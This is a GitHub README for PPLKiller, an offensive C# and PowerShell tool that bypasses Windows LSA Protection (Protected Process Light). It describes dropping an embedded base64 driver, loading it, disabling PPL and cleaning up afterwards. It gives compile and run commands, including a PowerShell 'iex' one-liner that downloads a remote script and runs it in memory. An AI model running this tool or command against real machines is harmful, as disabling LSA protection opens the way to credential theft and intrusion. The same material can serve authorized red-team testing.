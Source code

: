 # PPLKiller
Tool to bypass LSA Protection (aka Protected Process Light). 

This is a c# re-write of [PPLKiller by RedCursorSecurityConsulting](https://github.com/RedCursorSecurityConsulting/PPLKiller)

I worked on this tool so that I could then create a powershell script out of it.

How the tool differs from the original:

- you won't need to place the driver on current location, as the script will do it itself (b64 embedded)

- no flags/parameters are needed when running the tool

The tool will take care of placing the driver on disk, loading it, disable PPL, unload the driver, and deleting the driver from disk.

## Compile

```
csc /platform:x64 /out:PPLKiller.exe PPLKiller.cs
```

## Run (exe)

```
PPLKiller.exe
```
![image](https://github.com/user-attachments/assets/36592f5e-58d3-4c10-8c49-d684d96e5e6e)

## Run (Invoke-PPLKiller)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PPLKiller/refs/heads/main/Invoke-PPLKiller.ps1')
```
```
Invoke-PPLKiller
```
![image](https://github.com/user-attachments/assets/6bf72346-bbc2-45e3-8313-0b82abe2c187)
